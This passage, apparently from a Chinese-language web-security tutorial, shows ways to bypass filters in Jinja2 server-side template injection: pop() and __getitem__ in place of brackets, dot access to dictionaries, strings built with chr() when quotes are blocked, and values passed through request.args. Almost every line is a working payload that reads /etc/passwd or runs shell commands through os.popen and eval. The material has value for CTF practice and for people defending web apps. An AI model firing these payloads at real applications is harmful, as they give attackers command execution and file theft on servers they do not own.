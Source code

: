 #### **利用 pop() 绕过**

`pop()方法`可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，用法和上面的`__getitem__()`基本一样，如下示例：

```python
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

**注意：最好不要用pop()，因为pop()会删除相应位置的值。**

#### **利用字典读取绕过**

我们知道**访问字典里的值有两种方法**，一种是把相应的键放入我们熟悉的方括号 `[]` 里来访问，另一种就是用点 `.` 来访问。所以，当方括号 `[]` 被过滤之后，我们还可以用点 `.` 的方式来访问，如下示例

```python
#改成 __builtins__.eval()

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}} 
```

### 过滤了引号

#### **利用chr()绕过**

先获取`chr()`函数，赋值给chr，后面再拼接成一个字符串

```python
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

# {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

#### **利用request对象绕过**

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
#像下面这样就可以直接利用了
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```
